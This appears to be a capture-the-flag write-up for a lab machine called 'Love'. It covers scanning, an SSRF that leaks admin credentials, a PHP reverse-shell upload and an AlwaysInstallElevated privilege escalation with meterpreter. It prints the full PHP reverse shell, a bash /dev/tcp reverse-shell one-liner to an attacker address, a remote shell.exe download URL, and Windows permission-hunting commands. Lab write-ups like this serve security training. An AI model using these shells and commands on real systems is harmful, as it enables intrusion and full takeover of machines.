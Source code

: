 # love

![Love.png](love/Love.png)

### 05/02/2021

Running nmap at  first to discover open port and services versions: 

![love/Untitled.png](love/Untitled.png)

First contact with the website:

![love/Untitled%201.png](love/Untitled%201.png)

In the URL input we can try a SSRF vulnerability to access internal system and ports: It shows admin credentials: 

![love/Untitled%202.png](love/Untitled%202.png)

Into /admin directory we use the credentials to login.

![love/Untitled%203.png](love/Untitled%203.png)

This is a vote system and have some alternatives to input malicious codes: 

![love/Untitled%204.png](love/Untitled%204.png)

[https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/minified/php_reverse_shell_mini.php](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/minified/php_reverse_shell_mini.php)

let's try PHP reverse shell in the new candidate:

```jsx
<?php class Sh{private $a=null;private $p=null;private $os=null;private $sh=null;private $ds=array(0=>array('pipe','r'),1=>array('pipe','w'),2=>array('pipe','w'));private $o=array();private $b=1024;private $c=0;private $e=false;public function __construct($a,$p){$this->a=$a;$this->p=$p;if(stripos(PHP_OS,'LINUX')!==false){$this->os='LINUX';$this->sh='/bin/sh';}else if(stripos(PHP_OS,'WIN32')!==false||stripos(PHP_OS,'WINNT')!==false||stripos(PHP_OS,'WINDOWS')!==false){$this->os='WINDOWS';$this->sh='cmd.exe';$this->o['bypass_shell']=true;}else{$this->e=true;echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";}}private function dem(){$e=false;@error_reporting(0);@set_time_limit(0);if(!function_exists('pcntl_fork')){echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";}else if(($p=@pcntl_fork())<0){echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";}else if($p>0){$e=true;echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";}else if(posix_setsid()<0){echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";}else{echo "DAEMONIZE: Completed successfully!\n";}@umask(0);return $e;}private function d($d){$d=str_replace('<','&lt;',$d);$d=str_replace('>','&gt;',$d);echo $d;}private function r($s,$n,$b){if(($d=@fread($s,$b))===false){$this->e=true;echo"STRM_ERROR: Cannot read from ${n}, script will now exit...\n";}return $d;}private function w($s,$n,$d){if(($by=@fwrite($s,$d))===false){$this->e=true;echo"STRM_ERROR: Cannot write to ${n}, script will now exit...\n";}return $by;}private function rw($i,$o,$in,$on){while(($d=$this->r($i,$in,$this->b))&&$this->w($o,$on,$d)){if($this->os==='WINDOWS'&&$on==='STDIN'){$this->c+=strlen($d);}$this->d($d);}}private function brw($i,$o,$in,$on){$s=fstat($i)['size'];if($this->os==='WINDOWS'&&$in==='STDOUT'&&$this->c){while($this->c>0&&($by=$this->c>=$this->b?$this->b:$this->c)&&$this->r($i,$in,$by)){$this->c-=$by;$s-=$by;}}while($s>0&&($by=$s>=$this->b?$this->b:$s)&&($d=$this->r($i,$in,$by))&&$this->w($o,$on,$d)){$s-=$by;$this->d($d);}}public function rn(){if(!$this->e&&!$this->dem()){$soc=@fsockopen($this->a,$this->p,$en,$es,30);if(!$soc){echo"SOC_ERROR: {$en}: {$es}\n";}else{stream_set_blocking($soc,false);$proc=@proc_open($this->sh,$this->ds,$pps,'/',null,$this->o);if(!$proc){echo "PROC_ERROR: Cannot start the shell\n";}else{foreach($pps as $pp){stream_set_blocking($pp,false);}@fwrite($soc,"SOCKET: Shell has connected! PID: ".proc_get_status($proc)['pid']."\n");do{if(feof($soc)){echo "SOC_ERROR: Shell connection has been terminated\n";break;}else if(feof($pps[1])||!proc_get_status($proc)['running']){echo "PROC_ERROR: Shell process has been terminated\n";break;}$s=array('read'=>array($soc,$pps[1],$pps[2]),'write'=>null,'except'=>null);$ncs=@stream_select($s['read'],$s['write'],$s['except'],null);if($ncs===false){echo "STRM_ERROR: stream_select() failed\n";break;}else if($ncs>0){if($this->os==='LINUX'){if(in_array($soc,$s['read'])){$this->rw($soc,$pps[0],'SOCKET','STDIN');}if(in_array($pps[2],$s['read'])){$this->rw($pps[2],$soc,'STDERR','SOCKET');}if(in_array($pps[1],$s['read'])){$this->rw($pps[1],$soc,'STDOUT','SOCKET');}}else if($this->os==='WINDOWS'){if(in_array($soc,$s['read'])){$this->rw($soc,$pps[0],'SOCKET','STDIN');}if(fstat($pps[2])['size']){$this->brw($pps[2],$soc,'STDERR','SOCKET');}if(fstat($pps[1])['size']){$this->brw($pps[1],$soc,'STDOUT','SOCKET');}}}}while(!$this->e);foreach($pps as $pp){fclose($pp);}proc_close($proc);}fclose($soc);}}}}echo '<pre>';$sh=new Sh('127.0.0.1',9000);$sh->rn();echo '</pre>';unset($sh);/*@gc_collect_cycles();*/ ?>
```

Upload the reverse shell.

![love/Untitled%205.png](love/Untitled%205.png)

With that we received the reverse connection, now let1s explore the machine.

![love/Untitled%206.png](love/Untitled%206.png)

Reading some files:

![love/Untitled%207.png](love/Untitled%207.png)

Finding the user flag:

![love/Untitled%208.png](love/Untitled%208.png)

```jsx
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Article to some windows privilege escalation: 

[https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)

Using winpeas we have the capacity of Always Install Elevated privilege escalation

![love/Untitled%209.png](love/Untitled%209.png)

if we have the 0x01 can make the escalation

Create the reverse shell to get in metasploit.

![love/Untitled%2010.png](love/Untitled%2010.png)

Create reverse exe, start multi handler in metasploit and invoke in powershell on the windows side.

![love/Untitled%2011.png](love/Untitled%2011.png)

Make the multi handler with payload meterpreter:

```jsx
windows/meterpreter/reverse_tcp
```

Escalate:

![love/Untitled%2012.png](love/Untitled%2012.png)

Success

![love/Untitled%2013.png](love/Untitled%2013.png)

![love/Untitled%2014.png](love/Untitled%2014.png)

```jsx
10.10.10.239 
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in

445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)

Vote Admin Creds admin:@LoveIsInTheAir!!!! 
10.10.14.185",3332

0<&196;exec 196<>/dev/tcp/10.10.14.185/3332; sh <&196 >&196 2>&196

http://10.10.14.185:7773/shell.exe
```

[https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1)

[https://pentestlab.blog/2017/02/28/always-install-elevated/](https://pentestlab.blog/2017/02/28/always-install-elevated/)
